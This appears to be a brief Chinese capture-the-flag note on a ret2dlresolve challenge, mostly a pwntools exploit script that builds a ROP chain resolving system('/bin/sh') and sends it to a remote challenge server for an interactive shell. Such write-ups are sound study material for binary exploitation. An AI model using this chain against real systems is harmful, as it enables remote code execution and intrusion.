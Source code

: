dl_runtime_resolve的类型题目
***
任务规划
解题时间：6个小时
预计于22/07/2023完成
***
已经做完，使用了新的工具
```
from pwn import *
context.log_level = 'debug'
context.binary = elf = ELF('./pwn-200')

offset = 112
rop = ROP(context.binary)
dlresolve = Ret2dlresolvePayload(elf, symbol='system', args=["/bin/sh"])
rop.read(0, dlresolve.data_addr)
rop.ret2dlresolve(dlresolve)
raw_rop = rop.chain()
io = remote("61.147.171.105",52497)
io.recvuntil("\n")
payload = flat({offset:raw_rop, 256:dlresolve.payload})
io.sendline(payload)
io.interactive()
```

